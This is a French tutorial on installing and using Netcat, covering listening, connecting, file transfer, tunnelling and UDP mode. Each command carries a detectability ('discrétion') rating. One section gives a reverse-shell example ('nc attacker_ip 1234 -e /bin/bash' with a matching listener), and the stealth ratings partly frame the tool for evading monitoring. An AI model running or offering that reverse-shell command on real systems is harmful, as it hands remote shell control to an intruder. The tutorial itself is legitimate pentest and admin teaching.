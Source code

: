#### Introduction

Netcat, souvent surnommé "le couteau suisse des réseaux", est un outil polyvalent et puissant utilisé pour la gestion des connexions réseau. Il peut être utilisé pour diverses tâches telles que l'écoute sur des ports, la connexion à des hôtes distants, le transfert de fichiers, et la création de tunnels. Netcat supporte à la fois les protocoles TCP et UDP, ce qui le rend extrêmement utile dans des scénarios de dépannage réseau, de tests de pénétration et de développement. Ce tutoriel vous guidera à travers les étapes d'installation et d'utilisation de Netcat sur les systèmes Linux et Windows.

**Installation sur Linux**

1.  **Installer via apt (pour les distributions basées sur Debian)** :

    ```bash
    sudo apt update
    sudo apt install netcat
    ```

    * **Explication** :
      * `sudo apt update` : Met à jour la liste des paquets disponibles.
      * `sudo apt install netcat` : Installe Netcat via le gestionnaire de paquets `apt`.

**Installation sur Windows**

1. **Télécharger Netcat depuis nmap.org ou** [**netcat.sourceforge.net**](http://netcat.sourceforge.net/).
   * **Explication** : Téléchargez et décompressez l'archive, puis placez l'exécutable dans un répertoire accessible.

#### Utilisation de Base

**1. Écoute d’un Port**

1.  **Lancer Netcat pour écouter sur un port spécifique** :

    ```bash
    nc -l -p 1234
    ```

    * **Explication** :
      * `-l` : Met Netcat en mode écoute (listening).
      * `-p 1234` : Spécifie le port sur lequel Netcat écoutera les connexions (port 1234 dans cet exemple).
    * **Discrétion** : Moyenne. Écouter sur un port peut être détecté par les systèmes de surveillance réseau.
2.  **Exemple avec une adresse IP spécifique** :

    ```bash
    nc -l -p 1234 -s 192.168.1.100
    ```

    * **Explication** :
      * `-s 192.168.1.100` : Spécifie l'adresse IP sur laquelle écouter.
    * **Discrétion** : Moyenne. L'écoute sur une IP spécifique peut également être détectée.

**2. Connexion à un Hôte**

1.  **Se connecter à un serveur sur un port spécifique** :

    ```bash
    nc example.com 1234
    ```

    * **Explication** :
      * `example.com` : L'adresse de l'hôte auquel se connecter.
      * `1234` : Le port sur lequel se connecter.
    * **Discrétion** : Moyenne. La connexion à un hôte peut être détectée par les systèmes de surveillance réseau.
2.  **Connexion avec une adresse IP spécifique** :

    ```bash
    nc 192.168.1.100 1234
    ```

**3. Transfert de Fichiers**

1. **Envoyer un fichier à travers une connexion Netcat** :
   *   **Sur l’hôte récepteur (écouteur)** :

       ```bash
       nc -l -p 1234 > received_file.txt
       ```

       * **Explication** : Le fichier reçu sera enregistré en tant que `received_file.txt`.
       * **Discrétion** : Moyenne. Le transfert de fichiers peut être détecté.
   *   **Sur l’hôte émetteur (expéditeur)** :

       ```bash
       nc example.com 1234 < file_to_send.txt
       ```

       * **Explication** : `file_to_send.txt` est le fichier à envoyer.

**4. Création d’un Tunnel**

1.  **Créer un tunnel pour rediriger un port local vers un port distant** :

    ```bash
    nc -l -p 1234 | nc example.com 5678
    ```

    * **Explication** : Cette commande redirige le trafic du port 1234 local vers le port 5678 sur `example.com`.
    * **Discrétion** : Moyenne à faible. La création de tunnels peut être détectée par les systèmes de surveillance réseau.

**5. Scénario de Reverse Shell**

1.  **Écouter sur un port (sur l’attaquant)** :

    ```bash
    nc -l -p 1234
    ```
2.  **Lancer un reverse shell (sur la machine cible)** :

    ```bash
    nc attacker_ip 1234 -e /bin/bash
    ```

    * **Explication** :
      * `attacker_ip` : Adresse IP de l'attaquant.
      * `-e /bin/bash` : Exécute `/bin/bash` pour fournir un shell interactif.
    * **Discrétion** : Faible. Les reverse shells sont souvent détectés par les systèmes de sécurité.

#### Options Avancées

**1. Mode UDP**

1.  **Écouter sur un port UDP** :

    ```bash
    nc -u -l -p 1234
    ```

    * **Explication** :
      * `-u` : Utilise le protocole UDP au lieu de TCP.
    * **Discrétion** : Moyenne. Les connexions UDP peuvent être surveillées.
2.  **Se connecter via UDP** :

    ```bash
    nc -u example.com 1234
    ```

**2. Mode Verbose**

1.  **Activer le mode verbose pour plus d’informations** :

    ```bash
    nc -v -l -p 1234
    ```

    * **Explication** :
      * `-v` : Active le mode verbose pour afficher des informations supplémentaires.
    * **Discrétion** : Moyenne. Le mode verbose affiche des informations supplémentaires mais n'affecte pas la détection des connexions.

#### Discrétion

**Discrétion** : Moyenne à faible. Netcat est souvent utilisé pour des tâches légitimes, mais il peut également être utilisé pour des activités malveillantes telles que des reverse shells. Utilise Netcat de manière responsable et dans des environnements où tu as l'autorisation. Les connexions et les activités générées par Netcat peuvent être surveillées par les systèmes de sécurité réseau.
